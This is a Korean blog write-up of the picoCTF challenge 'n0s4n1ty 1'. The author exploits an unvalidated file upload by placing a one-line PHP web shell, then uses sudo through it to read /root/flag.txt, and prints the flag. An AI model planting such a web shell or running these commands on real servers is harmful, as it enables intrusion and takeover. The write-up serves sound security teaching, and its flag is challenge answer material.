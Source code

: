 ```yaml
---
title: "(Easy) n0s4n1ty 1"
date: 2025-08-11 00:00:00 +0900
categories: [picoCTF, Web Exploitation]
tags: [picoctf, n0s4n1ty 1, web hacking, write-up]
---
```


# picoCTF / Web Exploitation

---

#### Difficulty Level : Easy
#### Title : n0s4n1ty 1

---

![n0s4nlty 1 figure1](/assets/img/picoCTF/2025-08-05-13-46-12.png)

> [Description]  
> 한 개발자가 웹사이트에 프로필 사진 업로드 기능을 추가했지만, 이 구현에는 결함이 있습니다. 이로 인해 당신에게 기회가 생겼습니다.  
> 당신의 임무는 (수락한다면) 제공된 웹 페이지에 접속해 파일 업로드 영역을 찾아내는 것입니다. 궁극적인 목표는 /root 디렉터리에 숨겨진 플래그를 찾는 것입니다.

일단 Description 만 읽었을 때는 "파일 업로드"라는 단어가 자꾸 걸린다...

(파일 업로드 취약점이 먹힐 것 같은 느낌...)

우선 우측 상단에 `Launch Instance`를 클릭해서 문제 접속을 위한 인스턴스를 생성하고,  
생성한 링크에 접속해보자.

![n0s4nlty 1 figure2](/assets/img/picoCTF/2025-08-05-13-53-43.png)

링크에 접속하면 사진과 같은 화면을 볼 수 있는데,

파일 선택을 통해 업로드할 파일을 지정하고, Upload Profile 버튼을 누르면 해당 파일이 서버에 업로드 되는 것 같다.

<br>

일단 아무 파일이나 올려봤다.

![n0s4nlty 1 figure3](/assets/img/picoCTF/2025-08-05-14-00-00.png)

\!?!?!?!?  

Profile 업로드라길래 사진만 올릴 수 있는줄 알았는데, 그냥 아무 파일이나 다 올라가는 모양이다. (검증 x)

파일 업로드 취약점이 존재한다는 것을 알았으니, **웹쉘** 을 업로드해서 플래그가 있다고 하는 /root 폴더에 접근해보자.

### Web Shell?
웹 쉘은 웹 서버에 업로드된 악성 스크립트 파일로, 공격자가 해당 서버를 원경에서 제어할 수 있게 해주는 도구를 말한다.

웹 쉘은 주로 php 코드로 작성되는데,  
그 이유는 php가 서버에서 바로 실행되는 언어이기 때문이다.

또한 많은 웹 서버가 php를 기본적으로 지원하고 있으며, 간단한 문법으로도 강력한 기능 구현이 가능하기 때문에 php 코드를 사용한다.

<br>

웹 쉘은 다음과 같이 작성해주었다.

```php
<?php echo shell_exec($_GET['cmd']); ?>
```
(인터넷에 치면 많이 나옴...)

해당 스크립트를 `webshell.php`라는 이름으로 저장하고 이를 업로드해봤다.

![n0s4nlty 1 figure4](/assets/img/picoCTF/2025-08-05-14-11-12.png)

역시나 잘 올라간다.

친절하게 어디에 올라갔는지 경로도 알려준다.

<br>

URL Path 부분에 해당 경로를 입력해서 웹 쉘이 제대로 실행되는지 확인해보자.  
(해당 웹쉘 파일에 접근하는 것만으로도 서버가 스크립트를 바로 실행해버림)

`http://standard-pizzas.picoctf.net:60182/uploads/webshell.php`

![n0s4nlty 1 figure5](/assets/img/picoCTF/2025-08-05-14-14-51.png)

스크립트에서 사용한 `shell_exec()` 함수에서 오류가 발생한 것을 보니 스크립트는 잘 실행되는 것 같다.

<br>

이제 /root 폴더 내부를 확인해보자!

업로드한 웹 쉘은 GET 방식으로 cmd에 값을 받아 명령어를 실행하므로, 다음과 같은 방식으로 명령어를 전달 할 수 있다.

`http://standard-pizzas.picoctf.net:60182/uploads/webshell.php?cmd=ls%20/root`  
(%20은 띄어쓰기)

![n0s4nlty 1 figure6](/assets/img/picoCTF/2025-08-05-14-20-05.png)

?!?!?!?!

아무것도 안뜬다...

왜냐하면 권한이 없기 때문...

명령 하나를 root 권한으로 실행시키는 방법이 있는데,  
바로 `sudo` 이다.

`sudo`를 앞에 붙여서 다시 확인해보면.

`http://standard-pizzas.picoctf.net:60182/uploads/webshell.php?cmd=sudo%20ls%20/root`

![n0s4nlty 1 figure7](/assets/img/picoCTF/2025-08-05-14-22-18.png)

오오오 보인다!

이제 해당 파일을 또 `sudo`와 함께 읽어주면?

`http://standard-pizzas.picoctf.net:60182/uploads/webshell.php?cmd=sudo%20cat%20/root/flag.txt`

![n0s4nlty 1 figure8](/assets/img/picoCTF/2025-08-05-14-23-34.png)

이렇게 플래그를 얻어낼 수 있다.

<br>

flag : ~~picoCTF{wh47_c4n_u_d0_wPHP_f7424fc7}~~